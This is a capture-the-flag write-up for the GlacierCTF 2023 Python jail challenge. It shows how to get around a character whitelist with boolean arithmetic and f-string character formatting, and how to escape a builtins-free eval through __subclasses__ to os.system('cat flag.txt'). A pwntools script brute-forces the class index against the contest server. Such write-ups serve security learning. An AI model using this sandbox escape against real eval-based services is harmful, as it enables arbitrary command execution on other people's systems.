

# Introduction

This challenge was during the **GlacierCTF 2023**.

The goal of this challenge is to escape from this prison to retrieve the flag.


```py title="chall.py"
print("You get one chance to awaken from the ice prison.")
code = input("input: ").strip()


whitelist = """gctf{"*+*(=>:/)*+*"}""" # not the flag
if any([x not in whitelist for x in code]) or len(code) > 40000:
    
    print("Denied!")
    exit(0)

eval(eval(code, {'globals': {}, '__builtins__': {}}, {}), {'globals': {}, '__builtins__': {}}, {})
```

# First condition

We will first focus on the first condition:

```py
whitelist = """gctf{"*+*(=>:/)*+*"}"""
```

## Numbers

The aim here is to find a trick to be able to write all numbers and later the characters.

We quickly find a way to obtain numbers with:

```py
digits = {
    0: '+("g"=="c")',
    1: '+("g"=="g")'}

for i in range(2, 150):
    digits[i] = digits[i-1] + digits[1] # True + True = 2...
```

This code will later be optimized to:

```py
digits = {
    0: '+("">"")',
    1: '+(""=="")',
    }
```

Thus, thanks to f-strings (since `f` is allowed) we can obtain all numbers.

## Letters

We then find a way to obtain letters using an f-string feature:

```py
f"""{digits[97]:c}""" # returns the corresponding unicode here
```

We then write these two functions to be able to build our obfuscated payload:

```py
def letter(letter_wanted):
    return '{'+digits[ord(letter_wanted)]+':c}'


def get_string(string_wanted):
    ret_str = ''
    for let in string_wanted:
        ret_str += letter(let)
    return 'f"""' + ret_str + '"""'
```

# Second condition

We can then build our payload.
However, we quickly run into a problem: the second condition.

Here is the payload we want to use:

```py
().__class__.__base__.__subclasses__()[107]().load_module('os').system('cat flag.txt')
```

The problem is that this obfuscated payload has **67887** characters...
And the second condition therefore does not accept it...

```py
len(code) > 40000
```

## Optimization

Our method for writing numbers writes `6` as `1+1+1+1+1+1`.
However, it is much more compact to write it as `(1+1+1)*(1+1)` (especially for large numbers).

Thus, we implement a check if the number is a multiple of `2` or `3` in order to save length (it’s not the most optimal, but it gets us well below 40,000).

```py
for i in range(2, 150):
    if i % 2 == 0:
        digits[i] = digits[i/2] + '*((""=="")+(""==""))'
    elif i % 3 == 0:
        digits[i] = digits[i/3] + '*((""=="")+(""=="")+(""==""))'
    else:
        digits[i] = "(" + digits[i-1] + digits[1] + ")"
```

These optimizations reduce our payload to **13227** characters!

We then faced a big problem: no response from the server...

# Payload

It’s time to look at the payload now.
The payload was chosen based on the following restriction:

```py
eval(eval(code, {'globals': {}, '__builtins__': {}}, {}), {'globals': {}, '__builtins__': {}}, {})
```

We see here that there are neither `__builtins__` nor `globals`.
So the code evaluated with `eval` will not have access to Python’s built-in functions (`print`, `__import__`, etc ...) ([cf python.org](https://docs.python.org/3/library/functions.html))

This is not a problem in itself because ways to bypass these restrictions exist ([cf hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#no-builtins))

The payload is as follows:

```py
().__class__.__base__.__subclasses__()[107]().load_module('os').system('cat flag.txt')
```

It tries to invoke `<class '_frozen_importlib.BuiltinImporter'>` using `().__class__.__base__.__subclasses__()[107]` in order to use the builtins again.

The problem is that in most cases `<class '_frozen_importlib.BuiltinImporter'>` is at index **107**.
However, the index may depend on the Python version.

All that remained was to brute-force the index and hope for a positive response.

```py
for i in range(90,120):
    string_wanted = f"""().__class__.__base__.__subclasses__()[{i}]().load_module('os').system('cat flag.txt')"""
    obf = get_string(string_wanted)

    print(len(obf))
    #context.log_level = 'debug'

    p = remote("chall.glacierctf.com",13384)
    p.recv()
    p.sendline(obf)
    try: 
        print(p.recv())
        break
    except EOFError:
        pass
    p.close()

p.success(f"Correct Payload was: {string_wanted}")
```


